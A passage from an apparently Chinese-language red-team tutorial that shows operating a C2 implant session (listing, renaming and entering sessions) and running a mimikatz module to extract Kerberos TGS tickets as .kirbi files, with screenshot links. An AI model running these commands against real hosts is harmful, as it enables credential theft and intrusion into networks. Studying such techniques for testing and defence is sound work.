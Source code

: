当目标运行 exe 上线后，使用`agents`命令可以查看所有会话

[![](assets/1708919803-508238e4f9613b50f10cb8e340cd031b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142221-1294a10a-ce26-1.png)

使用以下命令可以修改会话`rename 39ASLBHN stager1`，使用以下命令进入该会话`interact stager1`便可对主机进行操作

#### extract\_tickets 模块

执行下面的模块，他将提取`.kirbi`格式的文件作为`TGS`票据

```bash
usemodule powershell_credentials_mimikatz_extract_tickets
execute
```

[![](assets/1708919803-a978f960e7a21d6da3c76a814d0431e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142230-17e9c676-ce26-1.png)
